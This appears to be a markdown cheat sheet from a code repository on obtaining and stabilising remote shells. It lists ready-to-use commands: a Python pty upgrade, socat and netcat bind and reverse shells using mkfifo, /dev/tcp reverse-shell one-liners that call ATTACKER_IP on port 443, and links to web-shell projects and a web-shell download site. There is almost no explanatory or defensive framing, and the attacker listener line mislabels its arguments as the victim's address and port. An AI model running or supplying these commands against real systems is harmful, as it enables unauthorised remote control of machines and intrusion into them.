 # Stable revers Shell 

### Using Python for a psuedo terminal
```
python -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo
```

## Using socat
```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Bind Shell 
```
# Victim Machine

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

# Attacker Machine

nc -nv victim_ip victim_port
```

## Reversh Shell

```
## Victim Machine

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc attcker_ip attacker_port > /tmp/f

## Attacker

nc -nlvp victim_IP victim_PORT 

```


## Try this 

```
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 

exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done

0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196

```

## Web Shell

* [https://github.com/flozz/p0wny-shell](https://github.com/flozz/p0wny-shell)
* [https://github.com/b374k/b374k](https://github.com/b374k/b374k)
* [https://www.r57shell.net/single.php?id=13](https://www.r57shell.net/single.php?id=13)

You can find more web shells at: https://www.r57shell.net/index.php.

